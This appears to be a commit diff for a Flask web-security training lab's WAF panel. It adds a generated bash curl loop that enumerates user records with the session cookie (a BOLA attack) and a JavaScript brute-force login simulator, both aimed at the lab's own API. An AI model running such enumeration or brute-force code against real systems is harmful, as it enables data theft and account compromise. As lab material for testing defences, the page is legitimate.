

Before and after one commit to spmpl-pl/spm-web-lab, a Flask app: page /wafpanel in a window 1280 px wide. Shown: the part 106-999 px from the top of the page, without its empty margins (285-994 px from the left). Before the commit the page ends 694 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
BruteForce attack

```diff
--- a/templates/wafpanel.html
+++ b/templates/wafpanel.html
@@ -23,11 +23,25 @@ content %}
 <p>
   <b>Generate BOLA command</b><br />
   Click "Cenerate BOLA command" to generate ready to go BOLA exploitation command for bash.
+  When executed, the whole user database will be extracted.
 </p>
-<button id="GenerateBOLAButton">Generate BOLA</button>
+<button id="GenerateBOLAButton">Generate BOLA command</button>
 <div id="GenerateBOLAResult" class="result"></div>
 <br />
 
+<p>
+  <b>Run successful brute-force attack</b><br />
+  This script will generate successful brute-force attack against authentication endpoints.
+  You need to provide number of failed attempts before the successful attempt is tried. Please
+  provide valid username and password.
+</p>
+<input type="text" style="width: 40%" id="GenerateBruteForce-username" placeholder="username" />
+<input type="password" style="width: 40%" id="GenerateBruteForce-password" placeholder="password" />
+<input type="text" style="width: 18%" id="GenerateBruteForce-attempts" placeholder="attempts" />
+<button id="GetSumButton">Run Brute Force Attack</button>
+<div id="GenerateBruteForceResult" class="result"></div>
+
+<br />
 
 <script>
   function getCookie(name) {
@@ -38,6 +52,17 @@ content %}
     }
     return null; // cookie not found
   }
+
+  function randomString(length = 8) {
+    const chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
+    let result = '';
+
+    for (let i = 0; i < length; i++) {
+      result += chars.charAt(Math.floor(Math.random() * chars.length));
+    }
+  return result;
+  }
+
 
   document.getElementById("GetHeadersButton").onclick = () => {
     fetch("/api/GetHeaders")
@@ -56,12 +81,74 @@ content %}
         .then((data) => {
           if (data.username) {
             document.getElementById("GenerateBOLAResult").textContent =
-             'n=1; while [[ $n -lt 200 ]]; do echo "===Got record ID: $n"; curl --location --request POST "http://lab.spm.pl/api/GetUserData" --header "Accept: application/json" --header "Content-Type: application/json" -b "session=' + getCookie("session") + '" --data-raw "{\\\"id\\\":\\\"$n\\\"}" -s; echo ""; echo ""; n=$((n+1)); sleep 0.5; done'
+             'n=1; while [[ $n -lt 200 ]]; do echo "===Got record ID: $n"; curl --location --request POST "http://' + window.location.hostname + ':' + window.location.port + '/api/GetUserData" --header "Accept: application/json" --header "Content-Type: application/json" -b "session=' + getCookie("session") + '" --data-raw "{\\\"id\\\":\\\"$n\\\"}" -s|jq; echo ""; echo ""; n=$((n+1)); sleep 2; done'
           } else {
             document.getElementById("GenerateBOLAResult").textContent =
-              "nie ma sesji";
+              "You must be authenticated to generate BOLA command.";
           }
         });
+  };
+
+
+  document.getElementById("GetSumButton").onclick = () => {
+
+    const username = document.getElementById("GenerateBruteForce-username").value;
+    const password = document.getElementById("GenerateBruteForce-password").value;
+    const attempts = parseInt(document.getElementById("GenerateBruteForce-attempts").value, 10);
+
+    fetch("/api/GetSession")
+        .then((res) => res.json())
+        .then((data) => {
+          if (data.username) {
+            document.getElementById("GenerateBruteForceResult").textContent =
+            "You can't run this command while you are authenticated. Please log out first."
+          }
+          else {
+            if (isNaN(attempts) || attempts < 0) {
+              document.getElementById("GenerateBruteForceResult").innerText = "The Number of Attempts must be a positive number"
+            }
+            else {
+                document.getElementById("GenerateBruteForceResult").innerText = ""
+                for (let i = 1; i <= attempts; i++) {
+
+                  let temp_password = password;
+
+                    if (i !== attempts) {
+                      temp_password = randomString()
+                    }
+
+                    fetch("/api/login", {
+                      method: "POST",
+                      headers: { "Content-Type": "application/json" },
+                      body: JSON.stringify({ "username": username, "password": temp_password }),
+                    })
+                      .then(async res => {
+                        if (!res.ok) {
+                          if (res.status === 401) throw new Error('Unauthorized - please log in');
+                          const message = await res.text();
+                          throw new Error(message || `HTTP error ${res.status}`);
+                          document.getElementById("GenerateBruteForceResult").innerText += "Attempt: Blocked\n"
+                        }
+                        return res.json();
+                      })
+                      .then((data) => {
+                          if(data.success) {
+                            document.getElementById("GenerateBruteForceResult").innerText += "Attempt (" + i + "/" + attempts + "): Successful\n"
+                          }
+                          else {
+                            document.getElementById("GenerateBruteForceResult").innerText += "Attempt (" + i + "/" + attempts + "): Failed\n";
+                          };
+                      })
+                      .catch(err => {
+                      console.error(err);
+                      });
+                  }
+              }
+            }
+        });
+
+
+
   };
 </script>
 
```
